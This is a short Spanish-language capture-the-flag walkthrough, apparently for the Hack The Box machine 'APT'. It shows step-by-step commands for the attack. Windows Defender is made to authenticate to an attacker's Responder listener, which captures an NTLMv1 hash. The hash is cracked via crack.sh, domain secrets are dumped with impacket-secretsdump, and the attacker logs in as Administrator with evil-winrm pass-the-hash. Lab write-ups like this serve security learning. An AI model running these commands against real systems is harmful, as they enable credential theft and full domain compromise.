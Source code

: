 1. lanzamos el responder

    ```bash
    python3 responder.py -I tun0 --lm
    ```

1. desde la maquina victima aprovechamos del defender para scanear ficheros

    ```bash
    cd C:\Program Files\Windows Defender
    .\MpCmdRun.exe -Scan -ScanType 3 -File \\10.10.14.8\algoquenoexiste
    ```

Aqui vemos que hemos pillado el hash NTLMv1 de la propria maquina. Lo copiamos y usamos de ntlmv1-multi para crear el hash necessario para
romper con crack.sh

```bash
git clone https://github.com/evilmog/ntlmv1-multi
cd ntlmv1-multi
python3 ntlmv1.py --ntlmv1 'APT$::HTB:95ACA8C72487742B427E1AE5B8D5CE6830A49B5BBB58D384:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384:1122334455667788'
```

Aqui podemos copiar el hash en [crack.sh](https://crack.sh) usando un temporary email y recivimos un mail con la key.

```bash
impacket-secretsdump -hashes :d167c32388864b12f5f82feae86a7f798 'htb.local/APT$@apt'
```

Aqui ya vemos los hash de los usuarios y con evil-winRM no connectamos con el usuario administrator

```bash
evil-winrm -i apt -u 'Administrator' -H 'c370bddf384a691d811ff3495e8a72e2'
```

y visualizar la flag.
